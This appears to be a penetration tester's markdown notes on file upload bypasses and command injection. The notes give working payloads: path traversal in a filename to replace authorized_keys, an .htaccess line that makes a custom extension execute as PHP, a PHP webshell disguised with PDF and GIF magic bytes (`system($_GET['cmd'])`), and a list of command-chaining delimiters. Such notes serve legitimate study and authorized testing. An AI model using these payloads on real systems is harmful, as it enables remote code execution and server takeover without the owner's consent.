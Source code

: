 Use **non executable files** for file enumeration or to replace an existing file (such as the authorized_keys file). For this attack to work we must modify the filename parameter in a burp request and add `../` to it:
![[Pasted image 20240709151902.png]]

Upload .htaccess file for upload bypass
- [https://medium.com/@raphaeltzy13/exploiting-file-upload-vulnerabilities-with-htaccess-file-8f52ba398710](https://medium.com/@raphaeltzy13/exploiting-file-upload-vulnerabilities-with-htaccess-file-8f52ba398710)
```bash
echo "AddType application/x-httpd-php .pwn" > .htaccess
```

Add part of a PDF in the beginning of the PHP webshell:
```shell
%PDF-1.5
%µí®û
4 0 obj
<< /Length 5 0 R
   /Filter /FlateDecode
>>
stream
x3T0

<?php
```
>[!info]
>If `file` is used to verify: `php.php: PDF document, version 1.5`

With GIF magic byte:
```shell
GIF89a;
<pre><?php system($_GET["cmd"]); ?></pre>
```

**Modify content-type!**


**RCE in filename**:

![[Pasted image 20250112160533.png]]
- Writeup: [[Vanity]]


---


## Command injection

https://book.hacktricks.xyz/pentesting-web/command-injection

Chain commands using delimiters:
```bash
||
|
;
&&
&
%0A
```
>[!info]
>URL encode payload
